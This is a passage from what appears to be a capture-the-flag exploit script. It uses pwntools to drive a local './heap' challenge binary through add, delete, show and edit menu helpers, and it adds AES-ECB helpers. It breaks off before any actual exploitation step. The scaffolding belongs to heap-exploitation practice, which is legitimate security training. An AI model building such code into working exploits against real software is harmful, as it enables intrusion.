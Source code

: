 ### exp
```py
from pwn import*
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

context(log_level="debug", arch="amd64", os="linux")
p = process("./heap")
libc = ELF("./libc.so.6")
def add(idx,content):
    p.recvuntil(">> ")
    p.sendline("1")
    p.recvuntil("idx: ")
    p.sendline(str(idx))
    p.recvuntil("content: ")
    p.send(content)
    
def delete(idx):
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil("idx: ")
    p.sendline(str(idx))

def show(idx):
    p.recvuntil(">> ")
    p.sendline("3")
    p.recvuntil("idx: ")
    p.sendline(str(idx))

def edit(idx,content):
    p.recvuntil(">> ")
    p.sendline("4")
    p.recvuntil("idx: ")
    p.sendline(str(idx))
    p.recvuntil("content: ")
    p.send(content)
  
def aes_encrypt(plaintext, key):
    """
    Encrypts plaintext using AES-128 in ECB mode with the given key.

    :param plaintext: bytes, the plaintext to encrypt
    :param key: bytes, the AES key (16 bytes for AES-128)
    :return: bytes, the encrypted ciphertext
    """
    # Create AES cipher in ECB mode
    cipher = AES.new(key, AES.MODE_ECB)
    
    # Pad plaintext to be a multiple of block size (16 bytes for AES)
    padded_plaintext = pad(plaintext, AES.block_size)
    
    # Encrypt the plaintext
    ciphertext = cipher.encrypt(padded_plaintext)
    
    return ciphertext

def aes_decrypt(ciphertext, key):
    """
    Decrypts a ciphertext using AES-128 in ECB mode with the given key.

    :param ciphertext: bytes, the ciphertext to decrypt (must be multiple of 16 bytes)
    :param key: bytes, the AES key (16 bytes for AES-128)
    :return: bytes, the decrypted plaintext
```